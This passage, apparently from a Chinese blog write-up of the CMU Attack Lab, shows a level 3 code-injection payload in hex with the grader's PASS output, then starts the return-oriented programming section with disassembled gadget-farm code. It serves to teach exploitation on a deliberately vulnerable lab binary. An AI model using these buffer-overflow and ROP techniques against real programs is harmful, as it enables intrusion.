 ```
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61		//cookie

```
故结果
```
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:68 FA 18 40 00 48 C7 C7 A8 DC 61 55 C3 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 
```
***
## Part II: Return-Oriented Programming
###Level2
为了避免攻击，采用随机栈地址和只读只写的栈（不可执行code injection)。为此，产生了ROP方式通过ret现有程序，可以产生攻击

即现有程序中的截取部分段落会表示不同的含义
```
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
			48 89 c7 表示 mov rax,rdi 	90为空操作
  4019c9:	c3                   	retq   
```
通过objdump反汇编 rtarget 得到汇编代码
```
0000000000401994 <start_farm>:
  401994:	b8 01 00 00 00       	mov    $0x1,%eax
  401999:	c3                   	retq   

000000000040199a <getval_142>:
  40199a:	b8 fb 78 90 90       	mov    $0x909078fb,%eax
  40199f:	c3                   	retq   

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   

00000000004019ae <setval_237>:
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq   

00000000004019b5 <setval_424>:
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	retq   

00000000004019bc <setval_470>:
  4019bc:	c7 07 63 48 8d c7    	movl   $0xc78d4863,(%rdi)
  4019c2:	c3                   	retq   

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)	这一段
  4019c9:	c3                   	retq   

```